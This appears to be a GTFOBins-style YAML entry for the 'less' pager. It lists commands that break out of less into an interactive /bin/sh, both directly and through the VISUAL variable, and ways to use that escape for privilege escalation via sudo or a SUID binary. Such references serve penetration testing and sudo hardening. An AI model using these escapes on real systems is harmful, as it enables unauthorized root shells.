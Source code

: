 ```yaml
---
functions:
  execute-interactive:
    - code: |
        less /etc/profile
        !/bin/sh
    - code: |
        VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
        v
  sudo-enabled:
    - code: |
        sudo less /etc/profile
        !/bin/sh
  suid-limited:
    - code: |-
        ./less /etc/profile
        !/bin/sh
---
```

